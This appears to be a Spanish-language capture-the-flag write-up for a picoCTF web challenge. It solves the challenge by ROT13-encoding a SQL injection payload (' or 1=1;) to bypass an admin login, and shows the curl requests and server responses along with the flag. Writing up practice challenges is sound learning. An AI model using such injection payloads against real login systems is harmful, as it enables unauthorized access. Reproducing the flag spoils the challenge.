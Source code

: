 ## Objetivo
There is a secure website running at `https://jupiter.challenges.picoctf.org/problem/29132/` ([link](https://jupiter.challenges.picoctf.org/problem/29132/)) or http://jupiter.challenges.picoctf.org:29132. Try to see if you can login as admin!

Hint
- Seems like the password is encrypted.
## Solucion
Activamos el campo oculto y obtemos lo siguiente
```
password: Carlos
SQL query: SELECT * FROM admin where password = 'Pneybf'
```
Podemos ver de que manera esta hecha la consulta y que se esta encriptando la contraseña.
Utilizamos ciberchef para ver que tipo de encriptado es el cual es rot13, convertimos la inyeccion ' 1 or 1=1; a root13 (' be 1=1;)  y obtenemos la bandera:

Your flag is: picoCTF{3v3n_m0r3_SQL_06a9db19}
## Solucion 2
```bash
┌──(wil㉿DESKTOP-FKOIV4I)-[~]
└─$ curl https://jupiter.challenges.picoctf.org/problem/29132/login.php -d "password=hola&debug=1"
<pre>password: hola
SQL query: SELECT * FROM admin where password = 'ubyn'
</pre><h1>Login failed.</h1>
┌──(wil㉿DESKTOP-FKOIV4I)-[~]
└─$ curl https://jupiter.challenges.picoctf.org/problem/29132/login.php -d "password=' be 1=1;&debug=1"
<pre>password: ' be 1=1;
SQL query: SELECT * FROM admin where password = '' or 1=1;'
</pre><h1>Logged in!</h1><p>Your flag is: picoCTF{3v3n_m0r3_SQL_06a9db19}</p>
┌──(wil㉿DESKTOP-FKOIV4I)-[~]
└─$

```
## Notas adicionales
## Referencias